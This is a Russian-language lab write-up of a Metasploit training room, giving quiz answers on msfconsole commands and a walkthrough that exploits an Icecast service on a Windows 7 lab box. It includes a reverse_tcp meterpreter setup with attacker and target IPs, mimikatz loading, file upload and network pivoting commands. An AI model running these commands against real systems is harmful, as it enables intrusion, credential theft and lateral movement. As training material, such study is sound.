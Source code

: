 # ROOM RP: Metasploit
![PNMG](png/name_task.jpg)


### **Задания в данной машине разделаются на практическую и теоретическую части.**
<details>
  <summary>Теоретическая часть</summary>

## [Task 1] Intro
Установка Metasploit.
## [Task 2] Initializing...
Состоит из обучения к запуску Metasploit'a и парочке вопросов

1) `We can start the Metasploit console on the command line without showing the banner or any startup information as well. What switch do we add to msfconsole to start it without showing this information? This will include the '-'`

Ответ: `-q`

2) `Cool! We've connected to the database, which type of database does Metasploit 5 use? `

Узнать базу данных, которую использует Metasploit можно с помощью команды `db_status`
Ответ: `postgresql`

## [Task 3] Rock 'em to the Core [Commands]
Базовые команды в Metasploit

1) `The help menu has a very short one-character alias, what is it?`

Ответ: `?`

2) `Finding various modules we have at our disposal within Metasploit is one of the most common commands we will leverage in the framework. What is the base command we use for searching?`

Ответ: `search`

3) `Once we've found the module we want to leverage, what command we use to select it as the active module?`
   
Ответ: `use`

4) `How about if we want to view information about either a specific module or just the active one we have selected?`

Ответ: `info`

5) `Metasploit has a built-in netcat-like function where we can make a quick connection with a host simply to verify that we can 'talk' to it. What command is this?`

Ответ: `connect` 

[Connect more info](https://subscription.packtpub.com/book/networking_and_servers/9781788990615/12/ch12lvl1sec70/using-connect-as-netcat)

6) `Entirely one of the commands purely utilized for fun, what command displays the motd/ascii art we see when we start msfconsole (without -q flag)?`

Овтет: `banner`

7) `We'll revisit these next two commands shortly, however, they're two of the most used commands within Metasploit. First, what command do we use to change the value of a variable?`

Ответ: `set`

8) `Metasploit supports the use of global variables, something which is incredibly useful when you're specifically focusing on a single box. What command changes the value of a variable globally?`

Ответ: `setg`

9) `Now that we've learned about to change the value of variables, how do we view them? There are technically several answers to this question, however, I'm looking for a specific three-letter command which is used to view the value of single variables.`\

Ответ: `get`

10) `How about changing the value of a variable to null/no value?`

Ответ: `unset`

11) `When performing a penetration test it's quite common to record your screen either for further review or for providing evidence of any actions taken. This is often coupled with the collection of console output to a file as it can be incredibly useful to grep for different pieces of information output to the screen. What command can we use to set our console output to save to a file?`

Ответ: `spool`

12) `Leaving a Metasploit console running isn't always convenient and it can be helpful to have all of our previously set values load when starting up Metasploit. What command can we use to store the settings/active datastores from Metasploit to a settings file? This will save within your msf4 (or msf5) directory and can be undone easily by simply removing the created settings file.`

Ответ: `save`
### [Task 4] Modules for Every Occasion!

Основные модули Metasploit

1) `Easily the most common module utilized, which module holds all of the exploit code we will use?`

Ответ: `exploit`

2) `Used hand in hand with exploits, which module contains the various bits of shellcode we send to have executed following exploitation?`

Ответ: `payload`

3) `Which module is most commonly used in scanning and verification machines are exploitable? This is not the same as the actual exploitation of course.`

Ответ: `auxiliary`

4) `One of the most common activities after exploitation is looting and pivoting. Which module provides these capabilities?`

Ответ: `post`

5) `Commonly utilized in payload obfuscation, which module allows us to modify the 'appearance' of our exploit such that we may avoid signature detection?`

Ответ: `encoders`

6) `Last but not least, which module is used with buffer overflow and ROP attacks?`

Ответ: `nop`

7) `Not every module is loaded in by default, what command can we use to load different modules?`

Ответ:`load`

</details>
<details>
  <summary>Практическая часть</summary>

## [Task 5] Move that shell!

1) `What service does nmap identify running on port 135?`

Ответ: `msrpc`

Решение : 
* Запустить nmap: `nmap -sV <IP>` 
```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
8000/tcp  open  http-alt
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49159/tcp open  unknown
```
* Решить задание как и положено через Metasploit : `db_nmap -sV  <IP>` и получить тот же список.
![IMAGE_NMAP](png/db_nmap.jpg)

1) `Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type 'use' followed by a unique string found within only the target exploit. For example, try this out now with the following command 'use icecast'. What is the full path for our exploit that now appears on the msfconsole prompt? *This will include the exploit section at the start`

Ответ : `exploit/windows/http/icecast_header`

![Aux](png/auxilary.jpg)

Решение : В msfconsole использовать команду `search icecast`, которая покажет нужный exploit

2)`While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command 'search multi/handler'. What is the name of the column on the far left side of the console that shows up next to 'Name'? Go ahead and run the command 'use NUMBER_NEXT_TO exploit/multi/handler wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.`

Ответ : `#`
## [Task 6] We're in, now what?

1) `First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command 'ps'. What's the name of the spool service?`

Ответ: `spoolsv.exe`

Решение: Использовать команду `ps` в сессии, чтобы увидеть список запущенных процессов.
<details> 
  <summary>Список процессов на хосте</summary>

```
Process List
============

 PID   PPID  Name                  Arch  Session  User          Path
 ---   ----  ----                  ----  -------  ----          ----
 0     0     [System Process]                                   
 4     0     System                                             
 416   4     smss.exe                                           
 548   540   csrss.exe                                          
 560   648   svchost.exe                                        
 596   540   wininit.exe                                        
 632   588   csrss.exe                                          
 648   596   services.exe                                       
 680   588   winlogon.exe                                       
 712   596   lsass.exe                                          
 720   596   lsm.exe                                            
 760   648   svchost.exe                                        
 824   2536  WinSAT.exe            x64   1                      
 828   648   svchost.exe                                        
 900   648   svchost.exe                                        
 952   648   svchost.exe                                        
 1072  648   Defrag.exe                                         
 1076  648   svchost.exe                                        
 1204  648   svchost.exe                                        
 1296  648   vds.exe                                            
 1328  560   dwm.exe               x64   1        Dark-PC\Dark  C:\Windows\System32\dwm.exe
 1344  1320  explorer.exe          x64   1        Dark-PC\Dark  C:\Windows\explorer.exe
 1408  648   spoolsv.exe                                        
 1484  2308  mscorsvw.exe                                       
 1488  648   sppsvc.exe                                         
 1500  648   svchost.exe                                        
 1536  1344  Icecast2.exe          x86   1        Dark-PC\Dark  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe
 1560  648   taskhost.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\taskhost.exe
 1776  648   amazon-ssm-agent.exe                               
 1828  648   aitagent.exe                                       
 1888  648   LiteAgent.exe                                      
 1928  648   svchost.exe                                        
 2036  648   Ec2Config.exe                                      
 2116  648   SearchIndexer.exe                                  
 2268  632   conhost.exe           x64   1                      
 2292  648   mscorsvw.exe                                       
 2296  648   svchost.exe                                        
 2308  648   mscorsvw.exe                                       
 2412  548   conhost.exe                                        
 2520  548   conhost.exe                                        
 2536  648   taskhost.exe          x64   1                      
 2768  828   rundll32.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\rundll32.exe
 2836  2768  dinotify.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\dinotify.exe
 2848  648   rundll32.exe                                       
 2968  648   taskhost.exe
```
</details>

2) `Let's go ahead and move into the spool process or at least attempt to! What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try!`

Ответ: `migrate`

3) `Well that migration didn't work, let's find out some more information about the system so we can try to elevate. What command can we run to find out more information regarding the current user running the process we are in?`

Ответ: `getuid`

4) `How about finding more information out about the system itself?`
  
Ответ: `sysinfo`  

<details>

```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

</details>

5) `This might take a little bit of googling, what do we run to load mimikatz (more specifically the new version of mimikatz) so we can use it?`

Ответ:`load kiwi`

[Github](https://github.com/rapid7/metasploit-framework/issues/11111)

[Mimakatz](https://www.offensive-security.com/metasploit-unleashed/mimikatz/)

6) `Let's go ahead and figure out the privileges of our current user, what command do we run?`

Ответ: `getprivs`

7) `What command do we run to transfer files to our victim computer?`

Ответ: `upload`

8) `How about if we want to run a Metasploit module?`

Ответ: `run`

9) `A simple question but still quite necessary, what command do we run to figure out the networking information and interfaces on our victim?`

Ответ: `ipconfig`

10) `One quick extra question, what command can we run in our meterpreter session to spawn a normal system shell?`

Ответ: `shell`

Список команд, которые надо было вводить в msf: 
```
60   set PAYLOAD windows/meterpreter/reverse_tcp
61   set LHOST 10.9.10.151
62   use icecast
63   set RHOST 10.10.219.189
64   run -j
65   jobs
66   sessions
67   sessions 1
```
![Exploit](png/exploit.jpg)
[Meterpeter command](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
## [Task 7] Makin' Cisco Proud

1) `Let's go ahead and run the command run autoroute -h, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.`

Ответ: `run autoroute -s 172.18.1.0 -n 255.255.255.0`

2) `Additionally, we can start a socks4a proxy server out of this session. Background our current meterpreter session and run the command `search server/socks4a`. What is the full path to the socks4a auxiliary module?`

Ответ: `auxiliary/server/socks4a`

1) `Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks4a server with proxychains?`

Ответ: `proxychains`

</details>

![TaskLIST](png/TASK.png)
